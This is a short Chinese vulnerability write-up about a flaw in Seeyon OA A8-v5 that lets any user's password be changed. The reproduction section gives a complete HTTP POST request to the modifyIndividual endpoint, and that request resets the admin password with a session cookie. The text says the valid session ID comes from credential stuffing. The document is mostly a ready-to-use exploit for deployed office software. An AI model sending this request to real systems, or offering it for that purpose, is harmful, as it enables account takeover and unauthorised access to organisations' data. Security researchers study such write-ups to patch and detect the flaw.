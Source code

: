 ```yaml
---
title: 致远OA A8-v5 任意用户密码修改
id: zhfly3358
---
```


# 致远OA A8-v5 任意用户密码修改

## 一、漏洞简介

致远A8-V5在设计时存在逻辑错误，在上一步对原始密码进行验证后，下一步不再检测原始密码，从而直接修改用户密码，导致平行权限的越权漏洞。

## 二、漏洞影响

致远OA A8-v5

## 三、复现过程

POST如下数据

```
POST /seeyon/individualManager.do?method=modifyIndividual HTTP/1.0

Accept: text/html, application/xhtml+xml, */*

Referer: [http://www.0-sec.org/seeyon/individualManager.do?method=managerFrame](http://www.0-sec.org/seeyon/individualManager.do?method=managerFrame)

Accept-Language: zh-CN

User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko

Content-Type: application/x-www-form-urlencoded

Proxy-Connection: Keep-Alive

Pragma: no-cache

Content-Length: 86

DNT: 1

Host: [www.0-sec.org](http://www.0-sec.org)

Cookie: JSESSIONID=DA71A65B3AAD45823A1FADAB80A3E685; Hm_lvt_49c0fa7f96aa0a5fb95c62909d5190a6=1419221849,1419232608; avatarImageUrl=8469117046183055270; loginPageURL="/main.do" `individualName=admin&formerpassword=123456&nowpassword=wy123456&validatepass=wy123456` 
```

individualName为用户名

注意，此处需要以一个合法的JSESSIONID发送如上数据即可修改任意用户密码，合法的JSESSIONID由撞库得出。

本次证明演示中修改的用户为admin，修改为wy123456